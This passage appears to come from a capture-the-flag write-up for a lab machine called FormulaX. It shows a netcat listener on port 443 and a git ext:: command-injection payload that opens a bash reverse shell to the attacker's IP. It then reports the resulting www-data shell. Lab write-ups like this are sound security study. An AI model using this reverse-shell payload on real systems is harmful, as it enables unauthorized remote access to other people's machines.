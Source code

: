 Now, instead of a ping, I will start nc in port 443 and execute a bash reverse shell with the following payload:

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
```

```plaintext
ext::bash -c bash% -i% >&% /dev/tcp/10.10.15.95/443% 0>&1% >&2
```

![sended revshell payload](/assets/images/FormulaX/sended-revshell-payload.png)

And I receive a shell as www-data:

![www-data shell received](/assets/images/FormulaX/www-data-shell-received.png)
